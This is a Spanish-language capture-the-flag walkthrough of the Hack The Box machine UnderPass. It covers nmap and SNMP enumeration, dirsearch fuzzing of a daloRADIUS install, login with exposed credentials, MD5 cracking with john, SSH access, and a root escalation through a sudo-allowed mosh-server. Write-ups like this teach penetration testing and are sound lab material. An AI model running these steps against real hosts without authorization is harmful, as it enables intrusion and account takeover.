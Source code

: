 ***Fase 1: Reconocimiento***
----------------------------------------------

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sSVC --min-rate 7000 -p- -Pn 10.10.11.48 -oN escaneo
```
<img src="Pasted image 20241228134212.png">

```
sudo nmap -sU -sSVC --min-rate 7000 -Pn 10.10.11.48 -oN escaneo
```
<img src="Pasted image 20241228134914.png">

```
sudo nmap -p 161 -sU -sSVC --min-rate 7000 -Pn 10.10.11.48 -oN escaneo
```
<img src="Pasted image 20241228135045.png">

Vemos que está el puerto 161 con el servicio snmp con la versión 2c. Vamos a intentas sacar información pública por aquí:
```
snmpwalk -v 2c -c public 10.10.11.48
```
<img src="Pasted image 20241228133111.png">

Vemos que nos da un correo electrónico y una posible credencial, nos la guardamos por si luego podemos usarla en un servidor daloradius. A continuación, al ver que tiene un servicio web, vamos a ver que nos esconde, para ello introduciermos el dominio en el navegador.
<img src="Pasted image 20241228133242.png">

A continuación, vamos a ver que esconde el servicio daloradius, para ello introducimos lo siguiente en el navegador:
```
http://underpass.htb/daloradius
```

Vemos que nos da la pagina de apache, vamos a realizar un fuzzing para ver si hay algún archivo o directorio oculto.
```
dirsearch -u http://underpass.htb/daloradius
```
<img src="Pasted image 20241228135811.png">

Vemos que hay una carpeta llamada app y otra llamada doc, así que vamos a volver a realizar fuzzing pero en esa carpeta.
```
dirsearch -u http://underpass.htb/daloradius/app
```
<img src="Pasted image 20241228140122.png">

```
dirsearch -u http://underpass.htb/daloradius/doc
```
<img src="Pasted image 20241229114654.png">

Vemos que hay un directorio llamado install, vamos a ver si tiene algún archivo de instalación donde nos de datos claves del la web.
```
dirsearch -u http://underpass.htb/daloradius/doc/install
```
<img src="Pasted image 20241229115146.png">

Si vamos al navegador, y nos dirigimos a la ruta encontrada podremos ver que nos muestra unas credenciales del login.
```
dirsearch -u http://underpass.htb/daloradius/doc/install
```
<img src="Pasted image 20241229115358.png">

***Fase 2: Explotación***
--------------------------------------
Nos dirigimos a la ruta para iniciar sesión y introducimos las credenciales que acabamos de encontrar:
```
http://underpass.htb/daloradius/app/operators/login.php
```
<img src="Pasted image 20241228140226.png">

Vemos que al iniciar sesión tenemos un panel de administración.
<img src="Pasted image 20241229115834.png">

Nos dirigiremos al menú de usuarios para ver si podemos obtener alguna credencial que podamos intentar logear para el servicio ssh.
<img src="Pasted image 20241229120030.png">

Vemos que tenemos el usuario `svcMosh` con una password cifrada, la vamos a copiar y vamos a intentar crackearla. Para ello vamos a averiguar que nivel de cifrado para ello haremos lo siguiente:
```
hash-identifier
```
<img src="Pasted image 20241229120411.png">
<img src="Pasted image 20241229120429.png">

Vemos que nos dice que está cifrado por MD5, ahora vamos a crackearlo con `john`.
```
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```
<img src="Pasted image 20241229120655.png">

***Fase 3: Intrusión***
-----------------------------------

Una vez tenemos password crackeada vamos a intentar loguearnos con ese usuario mediante el protocolo ssh.
<img src="Pasted image 20241229123506.png">

Vemos que tenemos la intrusión con estas credenciales. 

***Fase 4: Escalada de privilegios***
------------------------------------------------------------

Ahora vamos a ver si hay algún binario con permisos de algún usuario con más privilegios.
```
sudo -l
```
<img src="Pasted image 20241229123855.png">

Vemos que el binario `mosh-server` tienes privilegios de root, vamos a intentar explotarlo.
```
mosh --server="sudo /usr/bin/mosh-server" localhost
```
<img src="Pasted image 20241229124923.png">

Y con esto ya tendremos el control total del servidor.